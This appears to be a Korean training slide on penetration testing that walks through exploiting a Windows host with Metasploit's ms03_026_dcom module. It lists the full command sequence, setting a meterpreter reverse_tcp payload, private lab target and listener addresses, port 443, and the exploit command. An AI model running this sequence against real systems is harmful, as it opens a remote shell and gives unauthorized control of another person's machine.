

# ms03_026_dcom.rb 모듈을 이용한 침투
모듈 사용형식 작성
use exploit/windows/dcerpc/ms03_026_dcom
set payload windows/meterpreter/reverse_tcp
set rhost 192.168.10.201
set lhost 192.168.10.220
set lport 443
exploit

12